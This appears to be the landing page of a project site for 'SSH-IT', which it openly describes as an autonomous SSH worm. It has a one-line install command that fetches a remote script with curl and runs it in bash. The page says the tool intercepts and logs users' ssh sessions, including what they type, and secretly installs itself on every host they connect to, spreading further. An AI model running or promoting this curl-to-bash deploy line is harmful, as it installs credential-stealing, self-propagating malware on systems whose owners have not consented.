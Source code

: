 ```yaml
---
layout: default
title: An autonomous SSH worm
---
```


<div style="text-align:center">{{ page.title }}</div>

<div style="width:80%; margin:auto">
<script id="asciicast-LNmtdthAM1WewOs12ZnHd8RyC" src="https://asciinema.org/a/LNmtdthAM1WewOs12ZnHd8RyC.js" async data-autoplay=1 data-speed="1.5"></script>
</div>

### Install / Deploy

SSH-IT can be installed and deployed with a [single command](deploy):
```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
[Read more](deploy) and learn some [tricks](deploy).

### What it does

SSH-IT intercepts outgoing SSH connections every time a user uses ```ssh```. It logs the session and (secretly) installs itself onto the newly connected system. SSH-IT keeps intercepting, logging and spreading.

### How it works

SSH-IT executes the original ssh command inside a fake PTY harness and intercepts any user input and output. None of the system binaries are modified and it does not need ```ptrace()```. It does not require root or superuser privileges.

Read our [detailed explanation](how-it-works) for more information.

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  
